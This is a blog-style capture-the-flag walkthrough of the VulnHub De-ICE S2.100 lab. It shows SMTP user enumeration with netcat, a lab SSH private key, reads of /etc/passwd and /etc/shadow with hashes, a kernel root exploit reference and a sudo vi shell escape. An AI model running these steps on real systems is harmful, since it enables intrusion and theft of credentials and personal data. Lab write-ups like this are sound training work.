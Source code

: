 ```yaml
---
layout: post
title: "DE-ICE-S2.100"
date: 2015-05-10 11:40:38 +0200
comments: true
categories: 
---
```

Image: [De-ICE: S2.100](https://www.vulnhub.com/entry/de-ice-s2100,13/)

Nmap output:
{% codeblock %}
PORT    STATE  SERVICE  VERSION
21/tcp  open   ftp      vsftpd 2.0.4
22/tcp  open   ssh      OpenSSH 4.3 (protocol 1.99)
25/tcp  open   smtp     Sendmail 8.13.7/8.13.7
80/tcp  open   http     Apache httpd 2.0.55 ((Unix) PHP/5.1.2)
110/tcp open   pop3     Openwall popa3d
143/tcp open   imap     UW imapd 2004.357
{% endcodeblock %}

We found out that there is another IP address on the same network:
{% codeblock %}
Nmap scan report for 192.168.2.101
Host is up (0.00038s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:53:2F:A3 (VMware)
{% endcodeblock %}

Enumerating SMTP users, we get:
{% codeblock %}
root@kali:~# for i in $(cat /usr/share/ncrack/default.usr); do echo $i; echo -e "\nehlo lol\nmail from:$i@slax.example.net\nrcpt to:$i\nquit\n" | nc 192.168.2.100 25; done  | grep -i 'Recipient ok' 
250 2.1.5 root... Recipient ok
250 2.1.5 operator... Recipient ok
250 2.1.5 manager... Recipient ok
250 2.1.5 Manager... Recipient ok
250 2.1.5 adm... Recipient ok
250 2.1.5 lp... Recipient ok
250 2.1.5 MAIL... Recipient ok
250 2.1.5 system... Recipient ok
250 2.1.5 MANAGER... Recipient ok
250 2.1.5 OPERATOR... Recipient ok
250 2.1.5 halt... Recipient ok
250 2.1.5 Root... Recipient ok
250 2.1.5 SYSTEM... Recipient ok
250 2.1.5 ftp... Recipient ok
250 2.1.5 mail... Recipient ok
250 2.1.5 toor... Recipient ok
250 2.1.5 ROOT... Recipient ok
250 2.1.5 shutdown... Recipient ok
250 2.1.5 bin... Recipient ok
250 2.1.5 POSTMASTER... Recipient ok
250 2.1.5 nobody... Recipient ok
250 2.1.5 games... Recipient ok
250 2.1.5 postmaster... Recipient ok
250 2.1.5 NEWS... Recipient ok
250 2.1.5 sync... Recipient ok
250 2.1.5 INGRES... Recipient ok
250 2.1.5 daemon... Recipient ok
250 2.1.5 uucp... Recipient ok
250 2.1.5 Operator... Recipient ok
250 2.1.5 webmaster... Recipient ok
250 2.1.5 news... Recipient ok
{% endcodeblock %}

We used CEWL to create wordlist (userlist.txt) to reveal another user accounts.
Before we use this command, it's good to check if the disk is not full for
proper SMTP functionality.
{% codeblock %}
root@kali:# for i in $(cat ~/vulnhub/DE-ICE-S2.100/userlist.txt); do echo $i; echo -e "\nehlo lol\nmail from:$i@slax.example.net\nrcpt to:$i\nquit\n" | nc 192.168.2.100 25; done  | grep -i 'Recipient ok'
250 2.1.5 havisham... Recipient ok
250 2.1.5 magwitch... Recipient ok
250 2.1.5 pirrip... Recipient ok
{% endcodeblock %}

Again, this could be automatized using smtp-user-enum script:
{% codeblock %}
root@kali:# smtp-user-enum -M RCPT -f root@slax.example.net -U userlist.txt -t 192.168.2.100
{% endcodeblock %}

Dirb found the following URLs:
{% codeblock %}
http://192.168.2.101/~havisham/
http://192.168.2.101/~magwich/
http://192.168.2.101/~pirrip/
http://192.168.2.101/~pirrip/.ssh/
{% endcodeblock %}

We download the private key of pirrip user and log in:
{% codeblock %}
-----BEGIN RSA PRIVATE KEY-----
MIIEoQIBAAKCAQEA1pfb/CVukUw4Xe67YLEZzVHWNax0zJjI1CfcsoEGylmmtlA6
iXHi41nLshzXu9n536JfM9LFAWGqefBVX7Bzd/fC4+jHS3q89IK9FP7gFPwEmlNH
CwPX0ADxDFyB1lJOFffJ9gVw3VgHCaCPgS70UqJD0hZFDMSDMoBa91PylFQR0m58
nMq8DsGRbeC5hTdpLXKfBuW8v/lFuNEWVWNcZDie82aiJg8WRUUIrzeGZSR3+cG1
hi6za67VIi+ce8fFuBvIgaEpvJ0JSIX7zPLUV10ezW1NQRNplKSam3TIYI3+Ywuh
lcgpEyliHYReN6v91+um2c6LNy9y/vx2Akci5QIBIwKCAQEAvhF5s3GcchBPLqA/
kCfVBk/MW2zcerM1iLWXlsoNVCOFB+Co4CMKyV4pcd8IOKsfJSlqQ9fwUa5GiUKU
wne2urbf0S1CzdMcY4m9al4W7gPJkACeAnEeO+OTq9zoBvhxDCSc79ju7+7hqXD0
IfZjXyIBjjD7VHOKJWpfMtVTMunBCMqoAMa2veuN6LgDJweQNi7kon4qcj4SghGI
bdBv/Cnk7PMkG+DhafTRWyXGMWFpTHV4BNKv0i+k4lVV1oP9nJnh9jglY4EkD9LD
0Yt2QZt+XMTlxScsjcBpVGc9m4ZrgmRZGV0PTyMuWJtURkDBYPizkiPjjSZfUbyZ
y9QECwKBgQDsR9wLzrQbJIaOX8dG4rEt8pQHdYK7KCM8Bcq45iKKPzeLxchguM3o
+y9nRz5x8RWXWZUMl7PldoqwmrKh6WVCrdJ7mghPTYx3Djhcaf8q5XFTUhZH4xhB
72g1H6+JCECUjAFfjoSTOEswCFKYssgYA22x3fvLGg3S8f0UjjE1xQKBgQDogKVg
iyXCE833evccfrd/otsyVcxNincunAtYDAsqa2ZrjXL3oFwNwfC1CVKPhqDlnG46
M1tiSeYXygPbuPbHzRdu0ZuG7jRxxVdndl52gq/Zt8MKNRD9mdbFRcRMXmMRfaE4
RXdry9eB4rPywfWgJPGNVtOFZP6PRVv+IpoqoQKBgBRArHYKZzWGybRunA1j400U
ytwRYvoZYhsWcHY/nI+Bwu65Lm6wwTE6GgGJw4Yb+olQ0kLoboFh7qFsWHRHNJCv
0DZ66sT4BLm/Y+qp/+275SRmHyq7sZ9AaASNr/XNgeDYzOru9Wu0XjdRK6awPQlf
YSyAvc+UhNeRFbFOBDfPAoGAVlurI9vpc/i6N1mO+/SNTKo0KKOGZfGZ+16H3t/m
496/pEp7KMaIl2VKxuY0m7WpedsEXsKeSRQiQ1mpqWH1QuXG4AS2HCyXIvGG3Uk5
B3JekrH3/HocQO//UJZBmLVX/y6pmI7UlcC9wodnaMuzAPfHbwL+G5qKb7qtI+D3
busCgYATj4y+8msxNWRRNbHWAV7G0OurPDeZJ8F8NDLpM22X8fM08wgGRwkW4fpa
A+J8tN2ibiDqw29W6Rc1/4evAPbo3GR932W/ELOTOpP2yquiwoSxPG+HCLHmDITr
1qGHJRSOiFzo99iS5aQRhUvdl3M0lz1Cort7hjRKUkSWcT02Rw==
-----END RSA PRIVATE KEY-----
{% endcodeblock %}

{% codeblock %}
root@kali:~# chmod 600 pirrip-rsa.ssh
root@kali:~# ssh -l pirrip 192.168.2.100 -i pirrip-rsa.ssh
Linux 2.6.16.
pirrip@slax:~$

pirrip@slax:/etc$ cat /etc/passwd
root:x:0:0::/root:/bin/bash
bin:x:1:1:bin:/bin:
daemon:x:2:2:daemon:/sbin:
adm:x:3:4:adm:/var/log:
lp:x:4:7:lp:/var/spool/lpd:
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/:
news:x:9:13:news:/usr/lib/news:
uucp:x:10:14:uucp:/var/spool/uucppublic:
operator:x:11:0:operator:/root:/bin/bash
games:x:12:100:games:/usr/games:
ftp:x:14:50::/home/ftp:
smmsp:x:25:25:smmsp:/var/spool/clientmqueue:
mysql:x:27:27:MySQL:/var/lib/mysql:/bin/bash
rpc:x:32:32:RPC portmap user:/:/bin/false
sshd:x:33:33:sshd:/:
gdm:x:42:42:GDM:/var/state/gdm:/bin/bash
pop:x:90:90:POP:/:
nobody:x:99:99:nobody:/:
pirrip:x:1000:10:Philip Pirrip:/home/pirrip:/bin/bash
magwitch:x:1001:100:Abel Magwitch:/home/magwitch:/bin/bash
havisham:x:1002:100:Estella Havisham:/home/havisham:/bin/bash
{% endcodeblock %}

The root accound can be obtained using exploit from Kali:
{% codeblock %}
root@kali:/usr/share/exploitdb# scp platforms//linux/local/9575.c root@192.168.80.140:/tmp/

  * hoagie_udp_sendmsg.c
  * LOCAL LINUX KERNEL ROOT EXPLOIT (< 2.6.19) - CVE-2009-2698
{% endcodeblock %}

{% codeblock %}
sh-3.1# cat /etc/shadow
root:$1$/Ta1Q0lT$CSY9sjWR33Re2h5ohV4MX/:13882:0:::::
bin:*:9797:0:::::
daemon:*:9797:0:::::
adm:*:9797:0:::::
lp:*:9797:0:::::
sync:*:9797:0:::::
shutdown:*:9797:0:::::
halt:*:9797:0:::::
mail:*:9797:0:::::
news:*:9797:0:::::
uucp:*:9797:0:::::
operator:*:9797:0:::::
games:*:9797:0:::::
ftp:*:9797:0:::::
smmsp:*:9797:0:::::
mysql:*:9797:0:::::
rpc:*:9797:0:::::
sshd:*:9797:0:::::
gdm:*:9797:0:::::
pop:*:9797:0:::::
nobody:*:9797:0:::::
pirrip:$1$KEj04HbT$ZTn.iEtQHcLQc6MjrG/Ig/:13882:0:99999:7:::
magwitch:$1$qG7/dIbT$HtTD946DE3ITkbrCINQvJ0:13882:0:99999:7:::
havisham:$1$qbY1hmdT$sVZn89wKvmLn0wP2JnZay1:13882:0:99999:7:::

sh-3.1# cat /var/access/.htpasswd
aadams:bS.PQ9hVYEqrQ
{% endcodeblock %}

There is another way to get root account, first we find out the password for pirrip user:
{% codeblock %}
pirrip@slax:/var/spool/mail$ cat pirrip

E-Mail: pirrip@slax.example.net
Password: 0l1v3rTw1st
{% endcodeblock %}

{% codeblock %}
pirrip@slax:/var/spool/mail$ sudo -l
pirrip@slax:/var/spool/mail$ sudo vi
:!/bin/bash
{% endcodeblock %}

Finally, in /root/.save we obtain the following data:

{% codeblock %}
From sikes@slax.example.net  Sun Jan 13 23:53:37 2008
Return-Path: <sikes@slax.example.net>
Received: from slax.example.net (localhost [127.0.0.1])
        by slax.example.net (8.13.7/8.13.7) with ESMTP id m0DNlmHb009636
        for <pirrip@slax.example.net>; Sun, 13 Jan 2008 23:47:48 GMT
Received: (from sikes@slax.example.net)
        by slax.example.net (8.13.7/8.13.7/Submit) id m0DNlmDI009635
        for pirrip; Sun, 13 Jan 2008 23:47:48 GMT
From: Bill Sikes <sikes@slax.example.net>
Message-Id: <200801132347.m0DNlmDI009635@slax.example.net>
Date: Sun, 13 Jan 2008 23:47:48 +0000
To: pirrip@slax.example.net
Subject: Raises
User-Agent: nail 11.25 7/29/05
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit

Here's the data for raises for your team:
Philip Pirrip:  734-67-0424 5.5% $74,224
Abel Magwitch:  816-03-0028 4.0% $53,122
Estella Havisham: 762-93-1073 12% $84,325
{% endcodeblock %}

